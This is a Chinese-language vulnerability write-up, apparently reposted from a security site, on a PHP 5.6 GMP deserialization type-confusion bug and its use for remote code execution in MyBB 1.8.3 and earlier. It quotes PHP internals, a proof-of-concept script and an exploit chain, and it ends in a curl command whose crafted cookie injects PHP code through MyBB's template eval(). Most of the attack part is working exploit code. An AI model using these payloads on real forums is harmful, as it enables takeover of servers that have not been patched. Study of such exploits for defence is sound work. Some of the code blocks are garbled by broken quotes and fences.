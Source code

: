# MyBB <= 1.8.3 rce漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3034](https://www.zhihuifly.com/t/topic/3034)

# MyBB <= 1.8.3 RCE

## 一、漏洞简介

在使用精心编制的对象的`__wakeup()`魔术方法进行GMP反序列化时发现了一个类型混淆漏洞，该漏洞可被滥用来更新分配给已创建对象的任何属性，进而触发严重的安全问题。

## 二、漏洞影响

PHP 5.6 < 5.6.30

MyBB<=1.8.3

## 三、复现过程

### 漏洞分析

gmp.c

```
static int gmp_unserialize(zval **object, zend_class_entry *ce, const unsigned char *buf, zend_uint buf_len, zend_unserialize_data *data TSRMLS_DC) /* {{{ */
{
    ...
    ALLOC_INIT_ZVAL(zv_ptr);
    if (!php_var_unserialize(&zv_ptr, &p, max, &unserialize_data TSRMLS_CC)
        || Z_TYPE_P(zv_ptr) != IS_ARRAY
    ) {
        zend_throw_exception(NULL, "Could not unserialize properties", 0 TSRMLS_CC);
        goto exit;
    }

```
if (zend_hash_num_elements(Z_ARRVAL_P(zv_ptr)) != 0) {
    zend_hash_copy(
        zend_std_get_properties(*object TSRMLS_CC), Z_ARRVAL_P(zv_ptr),
        (copy_ctor_func_t) zval_add_ref, NULL, sizeof(zval *)
    );
} 
``` 
```

zend_object_handlers.c

```
ZEND_API HashTable *zend_std_get_properties(zval *object TSRMLS_DC) /* {{{ */
{
    zend_object *zobj;
    zobj = Z_OBJ_P(object);
    if (!zobj->properties) {
        rebuild_object_properties(zobj);
    }
    return zobj->properties;
} 
```

攻击者可以将`**object`更改为整数类型或bool类型的ZVAL，然后攻击者将能够通过`Z_OBJ_P`访问存储在对象库中的任何对象。这意味着攻击者将能够通过`zend_hash_copy()`更新对象中的任何属性。从而引发了一系列安全问题。

下面这段代码可以验证这个漏洞

```
<?php

class obj

{

var $ryat;

```
function __wakeup()
{
    $this-&gt;ryat = 1;
} 
```

}

$obj = new stdClass;

$obj->aa = 1;

$obj->bb = 2;

$inner = ‘s:1:“1”;a:3:{s:2:“aa”;s:2:“hi”;s:2:“bb”;s:2:“hi”;i:0;O:3:“obj”:1:{s:4:“ryat”;R:2;}}’;

$exploit = ‘a:1:{i:0;C:3:“GMP”:’.strlen($inner).’:{’.$inner.’}}’;

$x = unserialize($exploit);

var_dump($obj); `?>` 
```

预期结果:

```
object(stdClass)#1 (2) {
  ["aa"]=>
  int(1)
  ["bb"]=>
  int(2)
} 
```

实际结果:

```
object(stdClass)#1 (3) {
  ["aa"]=>
  string(2) "hi"
  ["bb"]=>
  string(2) "hi"
  [0]=>
  object(obj)#3 (1) {
    ["ryat"]=>
    &int(1)
  }
} 
```

### 漏洞利用

在`php 5.6<=5.6.11`中，DateInterval的`__wakeup()`使用`convert_to_long()`句柄并重新分配其属性，因此攻击者可以通过GMP的`gmp_cast_object()`将GMP对象转换成任何整数类型的ZVAL:

```
static int gmp_cast_object(zval *readobj, zval *writeobj, int type TSRMLS_DC) /* {{{ */
{
    mpz_ptr gmpnum;
    switch (type) {
    ...
    case IS_LONG:
        gmpnum = GET_GMP_FROM_ZVAL(readobj);
        INIT_PZVAL(writeobj);
        ZVAL_LONG(writeobj, mpz_get_si(gmpnum));
        return SUCCESS; 
```

漏洞利用代码

```
<?php

var_dump(unserialize(‘a:2:{i:0;C:3:“GMP”:17:{s:4:“1234”;a:0:{}}i:1;O:12:“DateInterval”:1:{s:1:“y”;R:2;}}’)); `?>` 
```

当然，也可以套用精心编制的`__wakeup()`

```
<?php

function __wakeup()

{

$this->ryat = (int) $this->ryat;

} `?>` 
```

#### MyBB <= 1.8.3

index.php

```
if(isset($mybb->cookies['mybb']['forumread']))
    {
        $forumsread = my_unserialize($mybb->cookies['mybb']['forumread']);
    } 
```

MyBB<=1.8.3允许通过`unserialize()`反序列化cookie，因此攻击者能够更新`$mybb`或其他对象的属性，从而很容易导致安全问题，例如：XSS、SQL注入、RCE等
好消息是该漏洞已经在新版本得到了修复

### PoC

MyBB <= 1.8.3 RCE漏洞

index.php

```
eval('$index = "'.$templates->get('index').'";'); 
```

MyBB在模板解析过程中始终使用eval()函数。
inc/class_templates.php

```
class templates
{
    ...
    public $cache = array();
    ...
    function get($title, $eslashes=1, $htmlcomments=1)
    {
        global $db, $theme, $mybb;
        ...
        $template = $this->cache[$title];
        ...
        return $template;
    } 
```

如果我们可以控制`$cache`，我们就可以通过`eval()`函数注入php代码。
inc/init.php

```
$error_handler = new errorHandler();
...
$maintimer = new timer();
...
$mybb = new MyBB;
...
switch($config['database']['type'])
{
    case "sqlite":
        $db = new DB_SQLite;
        break;
    case "pgsql":
        $db = new DB_PgSQL;
        break;
    case "mysqli":
        $db = new DB_MySQLi;
        break;
    default:
        $db = new DB_MySQL;
}
...
$templates = new templates; 
```

`$templates`对象在`init.php`中实例化，并且在此之前实例化了四个对象。这意味着`$templates`对象的句柄被设置为5并存储到对象存储中，因此我们可以访问`$templates`对象并通过在GMP反序列化期间将GMP对象转换为整型ZVAL(其值为5)来更新`$cache`属性。这也表明我们可以通过eval()函数注入php代码。

当MyBB<=1.8.3和PHP5.6<=5.6.11时，只需在命令行上使用curl即可触发RCE：

```
curl --cookie 'mybb[forumread]=a:1:{i:0%3bC:3:"GMP":106:{s:1:"5"%3ba:2:{s:5:"cache"%3ba:1:{s:5:"index"%3bs:14:"{${phpinfo()}}"%3b}i:0%3bO:12:"DateInterval":1:{s:1:"y"%3bR:2%3b}}}}' http://0-sec.org/mybb/ 
```